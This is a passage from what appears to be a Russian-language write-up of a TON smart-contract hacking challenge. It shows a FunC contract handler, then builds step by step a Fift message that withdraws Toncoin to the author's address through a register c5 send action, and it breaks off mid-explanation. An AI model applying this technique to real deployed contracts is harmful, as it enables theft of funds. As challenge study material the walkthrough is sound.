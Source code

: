 	() recv_internal (in_msg_full, in_msg_body) {
		if (in_msg_body.slice_empty?()) { ;; ignore empty messages
			return ();
		}
		slice cs = in_msg_full.begin_parse();
		int flags = cs~load_uint(4);

		if (flags & 1) { ;; ignore all bounced messages
			return ();
		}
		slice sender_address = cs~load_msg_addr();

		load_data();
		authorize(sender_address);

		cell request = in_msg_body~load_ref();
		execute(request);
	}

### Разбираем сообщение для взлома

Для отправки сообщения нам надо написать скрипт на fift (который выдаст нам структуру bag of cells, которую мы отправим в сеть TON), начнем с тела сообщения, для этого нам понадобиться `<b  b>` 

	"TonUtil.fif" include
	<b  b> =: message

По документации, самое сообщение может выглядеть так (далее код на FunC):

	  var msg = begin_cell()
		.store_uint(0x18, 6)
		.store_slice(addr)
		.store_coins(amount)
		.store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
		.store_slice(message_body)
	  .end_cell();

Поэтому запишем в тело, адрес на который мы хотим вывести Toncoin, количество обозначим как 0 Gram, в тело не будем ничего писать, получаем:

	"TonUtil.fif" include
	<b 0x18 6 u, 0 your address Addr, 0 Gram, 0 1 4 + 4 + 64 + 32 + 1 + 1 + u, b> =: message

Но в регистр `c5` надо будет положить не сообщение, а действие надо этим сообщением. Отправлять сообщение будем с помощью `SENDRAWMSG`.

Но сначала разберемся, как храниться данные в регистре `c5`. Вот [здесь](https://ton-blockchain.github.io/docs/#/smart-contracts/tvm_overview?id=result-of-tvm-execution) в документации написано, что это ячейка, с ссылкой на предыдущее действие, и с последним действием. Предыдущего действия у нас нет, поэтому будет пустой `Builder`.

	<b <b b> ref, здесь будет отправка сообщения ref, b>

> ref - добавляет к Builder b ссылку на Cell c.

Переходим к `SENDRAWMSG`, "код" функции возьмем из [371 строки здесь, прямо из блока](https://github.com/ton-blockchain/ton/blob/d01bcee5d429237340c7a72c4b0ad55ada01fcc3/crypto/block/block.tlb) и посмотрим, по [документации TVM на 137 странице](https://ton-blockchain.github.io/docs/tvm.pdf), какие параметры надо собрать:
